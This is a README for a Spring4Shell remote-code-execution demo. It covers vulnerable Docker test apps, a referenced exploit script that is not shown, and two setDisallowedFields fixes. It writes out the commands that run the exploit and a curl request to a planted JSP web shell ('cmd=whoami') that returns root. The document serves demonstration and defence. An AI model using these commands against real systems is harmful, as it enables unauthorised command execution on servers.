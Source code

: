 # Spring4Shell RCE Demo

## Types of demo

1. spring-mvc (with spring-boot) deployed as a war to Apache Tomcat
2. spring-boot war with jsp, to be run as `java -jar`
3. spring-boot jar without jsp, to be run as `java -jar`

While the first spring-mvc in Apache Tomcat is vulnerable, the latter two types -- where spring-boot runs in Embedded Tomcat Servlet Container -- do not appear to be vulnerable. See also https://www.praetorian.com/blog/spring-core-jdk9-rce/

Lastly, `spring4shell-exploit.sh` is a standalone bash script for testing the exploit against any app.

## Run spring-mvc demo

To run the spring-mvc demo, the war file needs to be deployed to a Tomcat container.

For convenience, there is a pre-built docker container. Here is how see the exploit in action:
```
# Run a sample vulnerable app
$ docker run -p 8080:8080 --rm maxhyper/spring4shell

# Install and run the exploit
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell/helloworld

# Try manually running (after a small delay)
$ curl --fail -v --output - 'http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=whoami'
> GET /tomcatwar.jsp?pwd=j&cmd=whoami HTTP/1.1
> Host: localhost:8080
> Accept: */*
> 
< HTTP/1.1 200 
< Content-Type: text/html;charset=ISO-8859-1
< Content-Length: 2291
< 
root
```

<br/>

The demo also contains two fixes.

One fix is to apply binder [setDisallowedFields() at controller level](https://github.com/maxxedev/spring4shell/blob/main/spring4shell-spring-mvc/src/main/java/com/example/spring4shell/controller/SafeHelloWorldController.java#L22-L29):
```
# Run or restart the sample app.
$ docker run -p 8080:8080 --rm maxhyper/spring4shell

# Try to install the exploit against safe controller. It should fail
# (Make sure the exploit was not previously installed)
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell/safe-helloworld

# Try manually running (after a small delay)
$ curl --fail -v --output - 'http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=whoami'
curl: (22) The requested URL returned error: 404
```

Another fix is to apply [setDisallowedFields() with a controller advice](https://github.com/maxxedev/spring4shell/blob/main/spring4shell-spring-mvc/src/main/java/com/example/spring4shell/controller/BinderControllerAdvice.java#L7-L20), for all controllers:
```
# Run or restart the sample app.
$ docker run -p 8080:8080 --rm -e APPLY_ADVICE=true maxhyper/spring4shell

# Install and run the exploit against unsafe controller. It should fail.
# (Make sure the exploit was not previously installed)
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell/helloworld
curl: (22) The requested URL returned error: 404 
```

## Run spring-boot war with jsp

```
# Run a sample vulnerable app
$ docker run -p 8080:8080 --rm maxhyper/spring4shell-spring-boot-war

# Try to install the exploit. It should fail
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell/helloworld
curl: (22) The requested URL returned error: 404
```

## Run spring-boot jar without jsp

```
# Run a sample vulnerable app
$ docker run -p 8080:8080 --rm maxhyper/spring4shell-spring-boot-jar

# Try to install the exploit. It should fail
$ bash spring4shell-exploit.sh http://localhost:8080 spring4shell/helloworld
curl: (22) The requested URL returned error: 404
```

